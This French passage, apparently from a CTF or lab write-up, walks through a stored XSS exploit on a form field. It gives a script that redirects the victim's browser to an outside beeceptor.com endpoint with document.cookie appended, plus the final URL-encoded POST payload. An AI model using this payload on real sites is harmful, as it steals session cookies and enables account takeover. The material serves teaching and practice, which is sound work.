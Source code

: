 ![beeceptor](image-13.png)

Pour simplifier l’exploit, je vais utiliser une redirection du navigateur de la cible vers `https://beecptor?cookie=+document.cookie`. Cette technique est facile à mettre en œuvre mais très visible dans les cas d’attaques réelles.

Le code JavaScript à exécuter est donc :

```js
window.location = "https://qsdfze.free.beeceptor.com?cookie=" + document.cookie
```

Il ne reste plus qu’à utiliser la même technique que précédemment, mais avec ce nouveau payload à la place du `alert(1)`. Attention : comme notre payload contient des `?`, `&`, `%` ou `=`, il est nécessaire de l’encoder en URL. Version URL encodée disponible [ici](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=d2luZG93LmxvY2F0aW9uID0gImh0dHBzOi8vcXNkZnplLmZyZWUuYmVlY2VwdG9yLmNvbT9jb29raWU9IiArIGRvY3VtZW50LmNvb2tpZQ).

Payload final :

```html
title=bbbbb&tinyMCE=<script>window%2Elocation%20%3D%20%22https%3A%2F%2Fqsdfze%2Efree%2Ebeeceptor%2Ecom%3Fcookie%3D%22%20%2B%20document%2Ecookie</script>
```

**<!> Si vous avez déjà envoyé un `alert` auparavant, il est nécessaire de réinitialiser l’application. Le `alert` bloque le chargement de la page.**
